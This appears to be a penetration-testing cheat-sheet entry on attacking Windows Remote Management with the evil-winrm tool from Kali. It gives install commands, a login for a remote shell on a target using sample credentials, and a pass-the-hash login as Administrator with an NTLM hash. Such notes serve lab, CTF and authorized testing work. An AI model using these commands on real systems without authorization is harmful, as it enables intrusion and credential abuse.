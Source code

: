 **WinRM (Windows Remote Management) used against WinRM services (Microsoft implementation of WS-Management Protocol), usually port 5985.**
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```
```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git
```
#### Shell with WinRM
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u jamie -p 'rangers'
```
#### Passing the hash
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```